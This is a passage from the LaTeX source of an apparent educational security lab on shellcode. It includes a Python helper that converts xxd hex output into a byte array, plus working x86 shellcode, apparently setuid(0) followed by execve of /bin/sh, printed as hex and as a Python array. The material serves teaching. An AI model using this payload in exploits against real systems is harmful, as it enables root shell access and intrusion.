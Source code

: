 \paragraph{Using the shellcode in attacking code.}
In actual attacks, we need to include the shellcode
in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but
converting the machine code printed above 
to the array assignment in Python and C programs
is quite tedious if done manually, especially if 
we need to perform this process many times in the lab. 
We wrote the following Python code to
help this process. Just copy whatever you
get from the \texttt{xxd} command (only the shellcode part)
and paste it to the following code, between the lines
marked by \texttt{"""}. The code can be downloaded from the 
lab's website.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}
 
The \texttt{convert.py} program will print out the 
following Python code that you can include 
in your attack code. It stores the shellcode in
a Python array. 
 
\begin{lstlisting}
$ ./convert.py
Length of the shellcode: 35
shellcode= (
   "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
   "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
   "\x0b\xcd\x80"
).encode('latin-1')
\end{lstlisting}



\subsection{Task 1.b. Eliminating Zeros from the Code}

